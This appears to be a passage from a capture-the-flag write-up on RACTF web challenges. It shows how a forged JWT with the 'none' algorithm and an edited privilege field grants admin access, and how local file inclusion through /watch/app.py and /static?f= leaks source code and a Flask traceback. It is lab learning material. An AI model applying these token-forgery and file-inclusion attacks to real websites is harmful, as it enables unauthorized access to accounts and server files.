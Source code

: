```
However, it is possible to change the encryption algorithm from `HS256` to `none` and remove the signature section and verification

So we can change the cookie by `{"typ":"JWT","alg":"none"}{"user": "Harry", "privilege": 1}` `(eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.)` and it work !

Finaly, we change the `privilege` by `2`, `{"typ":"JWT","alg":"none"}{"user": "Harry", "privilege": 2}` `(eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDJ9.)`

Refresh and we can open the admin page and read the flag: `ractf{j4va5cr1pt_w3b_t0ken}`

## Finding server information
```See if you can find the source, we think it's called app.py```

On the same website, we can play 3 different videos with urls:

```
http://url/watch/HMHT.mp4
http://url/watch/TIOK.mp4
http://url/watch/TCYI.mp4
```

The page watch seems has a rule which transform `http://url/watch/movie.mp4` in `http://url/watch?path=movie.mp4`

We can try if a Local File Inclusion is possible with `http://url/watch/app.py`

Bingo, in source code of the page we can read:

``` html
<video controls src="data:video/mp4;base64,ractf{qu3ry5tr1ng_m4n1pul4ti0n}"></video>
```

The flag is: `ractf{qu3ry5tr1ng_m4n1pul4ti0n}`

## Insert witty name
```
Having access to the site's source would be really useful, but we don't know how we could get it.
All we know is that the site runs python.
```

In the source of page `http://url`, we can read:
``` html
<link rel="stylesheet" href="/static?f=index.css">
```

There seems to have a Local File Inclusion, the page `http://url/static?` without file argument return an error page:
```
TypeError

TypeError: expected str, bytes or os.PathLike object, not NoneType
Traceback (most recent call last)

[...]

File "/usr/local/lib/python3.8/site-packages/flask/app.py", line 1936, in dispatch_request
    return self.view_functions[rule.endpoint](**req.view_args)
File "/srv/raro/main.py", line 214, in css
    return send_from_directory("static", name)
File "/usr/local/lib/python3.8/site-packages/flask/helpers.py", line 760, in send_from_directory
    filename = fspath(filename)
[...]
```
